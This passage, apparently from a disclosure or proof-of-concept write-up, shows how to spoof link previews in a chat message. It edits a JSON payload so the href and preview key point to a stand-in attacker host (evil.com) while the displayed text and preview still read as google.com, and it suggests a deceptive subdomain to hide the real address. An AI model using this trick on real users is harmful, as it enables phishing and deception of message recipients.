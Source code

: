 ```
    "urlpreviews":"[{\"key\":\"https://google.com\",\"value\":{\"url\":\"https://google.com\",\"size\":\"49128\",\"status_code\":\"200\",\"content_type\":\"text/html\",\"site\":\"www.google.com\",\"category\":\"generic\",\"title\":\"Google\",\"description\":\"Search the world's information, including webpages, images, videos and more. Google has many special features to help you find exactly what you're looking for.\",\"favicon\":\"https://nus1-urlp-static.secure.skypeassets.com/static/google-32x32.ico\",\"favicon_meta\":{\"width\":32,\"height\":32},\"thumbnail\":\"https://nus1-urlp-static.secure.skypeassets.com/static/google-90x90.png\",\"thumbnail_meta\":{\"width\":90,\"height\":90},\"user_pic\":\"\"}}]"
    }

}
```

Step 3: Insert your link in the 'href' attribute and in 'key' (in the urlpreviews key)

```
...
"content":"<a href=\"https://evil.com\">https://google.com</a>",
...
"urlpreviews":"[{\"key\":\"https://evil.com\",...
```

![Spoofed-Url](./spoofed_url.png)

The spoofed URL is shown at the bottom of the message. To get past that just create a realistic subdomain. Example: **google.image.view.evil.com**
